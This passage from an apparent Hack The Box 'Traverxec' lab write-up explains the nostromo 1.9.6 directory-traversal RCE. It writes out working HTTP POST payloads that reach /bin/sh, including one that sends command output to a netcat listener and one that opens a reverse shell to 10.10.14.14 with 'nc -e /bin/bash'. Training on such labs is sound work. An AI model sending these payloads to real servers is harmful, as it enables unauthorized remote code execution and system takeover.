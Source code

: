 		![]({{ page.img_path }}Pasted%20image%2020220925015312.png)


## TCP/80 (HTTP) - nostromo/nhttpd 1.9.6 RCE (Manual)
1. How does `nostromo 1.9.6 - Remote Code Execution` work?
	- Due to the insufficient  input sanitization, there is a directory traversal vulnerability in the function `http_verify`, attackers can include `/bin/sh` to do remote code execution.
	- Carriage returns (`\r, %0d`) is used to bypass the input sanitization of `/../` (Directory Traversal), allowing attackers to include `/bin/sh` to execude code.
	- [More Info](https://www.sudokaikan.com/2019/10/cve-2019-16278-unauthenticated-remote.html)
2. Check if RCE is working
	```
	POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.1
	Host: 10.10.10.165
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36 Edg/95.0.1020.44
	Content-Length: 53
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 53
	Connection: close
	
	echo
	echo
	bash -c "id;whoami" | nc 10.10.14.14 4444
	```
	![]({{ page.img_path }}Pasted%20image%2020220925170508.png)
	>Executed code is not reflected on the webpage, we have to pip `|` the executed commands into `netcat` to view it.
	{: .prompt-info }
2. Start `netcat` listener
	```
	┌──(root💀kali)-[~/htb/traverxec/10.10.10.165/exploit]
	└─# nc -nvlp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	Ncat: Connection from 10.10.10.165.
	```
3. Invoke reverse shell
	```
	POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.1
	Host: 10.10.10.165
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36 Edg/95.0.1020.44
	Content-Length: 55
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 55
	Connection: close
	
	echo
	echo
	bash -c "nc 10.10.14.14 4444 -e /bin/bash" 
	```
4. Demo - nostromo 1.9.6 RCE
	![](19CaxMPgGy.gif)
